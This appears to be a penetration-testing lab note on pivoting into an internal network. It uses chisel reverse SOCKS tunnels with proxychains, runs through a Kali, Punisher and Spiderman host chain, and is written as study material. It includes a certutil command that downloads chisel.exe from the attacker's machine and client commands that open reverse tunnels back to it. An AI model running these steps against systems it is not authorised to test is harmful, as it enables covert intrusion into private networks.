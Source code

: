 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

https://github.com/jpillora/chisel/releases

```bash - kali
sudo mousepad /etc/proxychains4.conf
```

```bash - kali
socks5 127.0.0.1 1080
```

```bash - kali
chmod +x chisel
```

Kali:
```bash - kali
sudo ./chisel server -p 8000 --reverse 
```

Windows target:
```command prompt - windows
certutil -urlcache -split -f http://$KALI/chisel.exe
```

```command prompt - windows
chisel.exe client $KALI:8000 R:socks
```  

Linux target:
```bash - kali
chmod +x chisel
```

```bash - target
./chisel client $KALI:8000 R:socks
```

If http is available on the target, set up foxyproxy and visit:
[[1._Proxychains and FoxyProxy]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
